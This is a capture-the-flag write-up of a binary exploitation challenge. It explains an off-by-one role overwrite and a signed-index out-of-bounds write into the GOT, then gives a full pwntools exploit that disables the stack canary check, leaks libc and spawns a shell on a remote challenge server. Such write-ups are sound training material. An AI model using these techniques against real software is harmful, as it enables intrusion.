Control room was a hard rated pwn challenge, solved by Ben R. Like most pwn challenges, we were given the target
binary and the relevant LIBC, and a remote server to run the final exploit to grab the flag.

```
└─$ ./control_room
<===[ Register ]===>

Enter a username: sharkmoos

Are you sure about your username choice? (y/n)
> n
<===[ Edit Username ]===>

New username size: 7

Enter your new username: shark
[+] User updated successfully!


┌───────────────┬────────┐
│ Control Panel │ 9A0:F3 │
├───────────────┴────────┤
│                        │
│ Technician:            │
│                        │
│ 1. Configure Engine    │
│                        │
│ 2. Check Engine        │
│                        │
│ Captain:               │
│                        │
│ 3. Set route           │
│                        │
│ 4. View route          │
│                        │
│ 5. Change roles        │
│                        │
└────────────────────────┘

[*] Current Role: Crew

Option [1-5]:
```

### Static Analysis

The challenge binary had quite a few functions, compared to your standard pwn challenge, and a bunch of functions
were irrelevant for my exploit, so I'll just list most of the functions.

- `register_user`: Allows the user to register a username. The username, username length, and role are stored in a heap chunk,
and a pointer to the chunk is stored in a global variable `curr_user`. The role is a single byte variable, 1=Technician, 0=Captain, 2=Crew.
- `edit_user`: Allows us to change the username, the program checks the size of the new username is not longer than
the old username, but there is an off-by-one error allowing us to overwrite the role byte, so we can become the captain
- `change_role`: Allows the captain to change his role. 
- `view_route`: Allows us to view the route, which is a global variable made up of 4 lots of 2 int64_t values, to represent latitude and longitude.
- `change_route`: A person with the captain role can set a route, which is a global variable made up of 4 lots of 2
int64_t values, to represent latitude and longitude. There was actually an UDA (uninitialised data access) here,
when reading the data from the stack to the global variable, so if the user entered no data, some stack data would
get copied into the global buffer and could be leaked using `view_route`.
- `check_engines`: A person with the technician role can check the engines, which is a global variable made up of 4
lots of two int64_t values, representing `thrust` and `mix_ratio`. This function just checked the values were within
a valid range and would log an error if not. I don't think there was anything challenge relevent here.
- `configure_engine`: A person with the technician role can configure the engines, this is the juicy one that we will
discuss more.


## Configure Engine

`configure_engine()` lets a technician select one of the 4 engines, and then supply values for `thrust` and `mix_ratio`.
The values are stored in a global variable, in a variable I called `engines`.

The code for `configure_engine()` looked pretty nasty at first.

```c 
int64_t configure_engine()
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    int16_t var_13 = 0
    char var_11 = 0
    int32_t var_2c = 0
    if (*(curr_user + 0x100) != 1)
        log_message(3, "Only technicians are allowed to …")
    else
        printf(format: "\nEngine number [0-%d]: ", 3)
        int32_t rax_5 = read_num()
        int64_t var_28
        int64_t var_20
        if (rax_5 s<= 3)
            printf(format: "Engine [%d]: \n", zx.q(rax_5))
            printf(format: "\tThrust: ")
            __isoc99_scanf(format: &data_40330e, &var_28)
            printf(format: "\tMixture ratio: ")
            __isoc99_scanf(format: &data_40330e, &var_20)
        getchar()
        printf(format: "\nDo you want to save the config…")
        printf(format: &data_403347)
        fgets(buf: &var_13, n: 3, fp: stdin)
        *(&var_13 + strcspn(&var_13, &data_4030a2)) = 0
        if (strcmp(&var_13, &data_40334b) == 0)
            int64_t rdx_3 = var_20
            *((sx.q(rax_5) << 4) + &engines) = var_28
            *((sx.q(rax_5) << 4) + &data_405128) = rdx_3
            log_message(0, "Engine configuration updated suc…")
        else
            log_message(1, "Engine configuration cancelled.\n")
    int64_t rax_21 = rax ^ *(fsbase + 0x28)
    if (rax_21 == 0)
        return rax_21
    __stack_chk_fail()
    noreturn
```

This just because original code would have used structures for the engines, so recreating those structures 
makes the code much more readable.

```c 
int64_t configure_engine()
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    int16_t confirm = 0
    char var_11 = 0
    int32_t var_2c = 0
    if (*(curr_user + 0x100) != 1)
        log_message(log_level: 3, message: "Only technicians are allowed to …")
    else
        printf(format: "\nEngine number [0-%d]: ", 3)
        int32_t engine_index = read_num()
        struct engine engine
        if (engine_index s<= 3)
            printf(format: "Engine [%d]: \n", zx.q(engine_index))
            printf(format: "\tThrust: ")
            __isoc99_scanf(format: &_%l, &engine)
            printf(format: "\tMixture ratio: ")
            __isoc99_scanf(format: &_%l, &engine.mix_ratio)
        getchar()
        printf(format: "\nDo you want to save the config…")
        printf(format: &_>)
        fgets(buf: &confirm, n: 3, fp: stdin)
        *(&confirm + strcspn(&confirm, &_\n)) = 0
        if (strcmp(&confirm, &y) == 0)
            int64_t ratio_1 = engine.mix_ratio
            *((sx.q(engine_index) << 4) + &engines) = engine.thrust
            (&engines.engine_0.mix_ratio)[sx.q(engine_index) * 2] = ratio_1
            log_message(log_level: 0, message: "Engine configuration updated suc…")
        else
            log_message(log_level: 1, message: "Engine configuration cancelled.\n")
    int64_t rax_20 = rax ^ *(fsbase + 0x28)
    if (rax_20 == 0)
        return rax_20
    __stack_chk_fail()
    noreturn
```

The bug here, is that the `engine_index` has a signed comparison, so by entering a negative number it will pass the 
check and allow us to write into memory at offsets above the `engines` variable in memory. Since this is in 
global memory, the Global Offset Table (GOT) is located here. So we have a GOT overwrite primitive via OOB write.
An additional constraint of this is that two values must be written, so this forced an overwrite for 2 adjacent GOT entries.
Most times the impact of this could be reduced by just overwriting the other entry with a `ret` gadget.

Now, we need to find a candidate to be overwritten, that will create a useful primitive for us. Since we have
no LIBC leak, and `system` or other code-exec functions have not been used, we can only work with what already 
exists in the program.

``` 
GOT protection: Partial RELRO | GOT functions: 20
[0x405018] free@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
[0x405020] strncpy@GLIBC_2.2.5 -> 0x401040 ◂— endbr64
[0x405028] puts@GLIBC_2.2.5 -> 0x7f64df83ded0 (puts) ◂— endbr64
[0x405030] fread@GLIBC_2.2.5 -> 0x7f64df83cbb0 (fread) ◂— endbr64
[0x405038] fclose@GLIBC_2.2.5 -> 0x7f64df83bcf0 (fclose@@GLIBC_2.2.5) ◂— endbr64
[0x405040] strlen@GLIBC_2.2.5 -> 0x401080 ◂— endbr64
[0x405048] __stack_chk_fail@GLIBC_2.4 -> 0x401090 ◂— endbr64
[0x405050] printf@GLIBC_2.2.5 -> 0x7f64df81d770 (printf) ◂— endbr64
[0x405058] memset@GLIBC_2.2.5 -> 0x7f64df95e100 (__memset_avx2_unaligned_erms) ◂— endbr64
[0x405060] strcspn@GLIBC_2.2.5 -> 0x4010c0 ◂— endbr64
[0x405068] fgets@GLIBC_2.2.5 -> 0x7f64df83c400 (fgets) ◂— endbr64
[0x405070] strcmp@GLIBC_2.2.5 -> 0x4010e0 ◂— endbr64
[0x405078] getchar@GLIBC_2.2.5 -> 0x4010f0 ◂— endbr64
[0x405080] fprintf@GLIBC_2.2.5 -> 0x401100 ◂— endbr64
[0x405088] malloc@GLIBC_2.2.5 -> 0x7f64df862120 (malloc) ◂— endbr64
[0x405090] setvbuf@GLIBC_2.2.5 -> 0x7f64df83e670 (setvbuf) ◂— endbr64
[0x405098] fopen@GLIBC_2.2.5 -> 0x7f64df83c6b0 (fopen@@GLIBC_2.2.5) ◂— endbr64
[0x4050a0] atoi@GLIBC_2.2.5 -> 0x401140 ◂— endbr64
[0x4050a8] __isoc99_scanf@GLIBC_2.7 -> 0x401150 ◂— endbr64
[0x4050b0] exit@GLIBC_2.2.5 -> 0x401160 ◂— endbr64
```

## Exploitation

After quite a while looking the functions, what arguments are supplied, whether they're used in places that would
break the program before I could exploit it. This was quite tricky, as the data out (`fgets`, `scanf` etc) functions 
all have quite complex function arguments that couldn't be fulfilled in other functions, such as `fgets` needing a 
pointer to `stdin` as the third argument. I found a candidate eventually. Still in the `configure_engine` function, there 
is a `strcmp()` on the `confirm` local variable, with the comparison character of `y`. When overwritten with the program
defined function `read_input`, which takes arguments `char *buf, int size`, this essentially forces a buffer
overflow in the `confirm` variable, which is 2 bytes long, with the `y` character which essentially becomes the size
79, neat right!

So `strcmp(&confirm, &y)` becomes `read_input(confirm, 79)`, which is a large buffer overflow. 

Plan of attack seems... simples!

1. Create a user, fill the buffer to the largest allowed size.
2. Edit the user, exploit the off-by-one to overwrite the `role` variable with 0 and become the captain role.
3. Change role to `technician` using the `change_role` function.
4. Configure the engines, and overwrite the GOT `strcmp` with `read_input` to get a buffer overflow.
5. Use the buffer overflow to do a ret2libc
6. Profit


Turns out this wasn't actually the intended method. The player was supposed to use the UDA to leak LIBC, and then
overwrite `atoi` with `system`, then just supply `sh` to input that gets passed to atoi. My way is more fun tho :D 





Hmm, so that didn't work - we can see what's happened. The `memset()` in the `read_input` function has caused 
the exploit to crash... Well - who even needs initialised memory buffers anyway! Let's just overwrite the GOT
entry for `memset` with a `ret` gadget, and the adjacent `printf` with `puts.plt`. 

Close, but no cigar...



Since the program has a stack canary mitigation, it is calling `__stack_chk_fail` and aborting before we can hijack execution.
Well - let's just overwrite the GOT entry for `__stack_chk_fail` with a `ret` gadget, and the adjacent `strlen()` with a ret too.

This time it worked! We leaked libc using a ret2plt rop chain, and returned to the `configure_engine` function for
a second round.



With LIBC, exploitation is trivial. Exploit code below.

```python
from pwn import *

IP, PORT = "161.35.168.118" ,31978
elf = ELF("./control_room_patched", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
context.binary = elf
# context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']

gs = '''
continue
'''

def conn():
    if args.REMOTE:
        r = remote(IP, PORT)
    elif args.LOCAL:
        r = process([elf.path])
    elif args.GDB:
        r = gdb.debug([elf.path], gdbscript=gs)
    else:
        r = process([elf.path], level="WARNING")
    return r


with conn() as p:
    rop = ROP(elf)
    ret = rop.find_gadget(["ret"]).address
    username = b"A" * (0x100)

    p.sendlineafter(b": ", username)
    p.sendlineafter(b": ", str(0x100).encode())
    p.sendlineafter(b":", b"B" * (0x100 - 8))

    # change role to technician
    p.sendlineafter(b": ", b"5")
    p.sendlineafter(b": ", b"1")

    # overwrite stack_check_fail
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-14")
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b">", b"y")

    # overwrite memset cos it keeps crashing
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-13")
    p.sendlineafter(b": ", str(elf.plt.puts).encode())
    p.sendlineafter(b": ", str(ret).encode())
    p.sendlineafter(b">", b"y")

    # make strcmp a buffer overflow
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"-11")

    p.sendlineafter(b": ", str(elf.sym.read_input).encode())
    p.sendlineafter(b": ", str(elf.plt.puts).encode())
    p.sendlineafter(b">", b"y")
    
    # trigger overflow
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")


    rop.puts(elf.got.puts)
    rop.call(0x401db2)
    payload = flat({
        19: rop.chain()
        })

    p.sendlineafter(b"> ", payload)
    p.recvline()
    p.recvline()
    p.recvline()
    leak = u64(p.recvline()[:-1].ljust(8, b"\x00"))
    log.info("LEAK: %#x", leak)
    libc.address = leak - libc.sym.puts
    log.info("LIBC BASE %#x", libc.address)

    rop = ROP(libc)
    rop.raw(rop.find_gadget(["ret"]).address)
    rop.call(libc.sym.system, [next(libc.search(b"/bin/sh\x00"))])
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")
    p.sendlineafter(b": ", b"1")

    payload = flat({
        19: rop.chain()
        })

    p.sendlineafter(b"> ", payload)
    p.clean()
    p.sendline(b"cat flag.txt")
    flag = p.recvline_contains(b"HTB").decode()
    log.success("Flag: " + flag) if flag else log.critical("Exploit failed")
```



